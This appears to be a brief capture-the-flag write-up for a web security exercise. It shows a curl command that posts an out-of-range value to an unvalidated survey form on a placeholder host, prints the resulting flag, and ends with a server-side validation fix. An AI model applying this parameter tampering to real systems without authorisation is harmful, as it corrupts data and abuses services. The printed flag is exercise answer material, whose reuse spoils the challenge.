 # Exploit
We visit the url "/index.php?page=survey". We check if there is a verification for POST values, for example "42" for one of the select field.

```bash
curl 'http://x.x.x.x/index.php?page=survey#' --data 'sujet=2&valeur=42' | grep 'flag is'
```

No verification, we get the flag **03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa**

# Patch
Verify if the value is in the good range in the server side, authorize feedback once per IP address or logged account.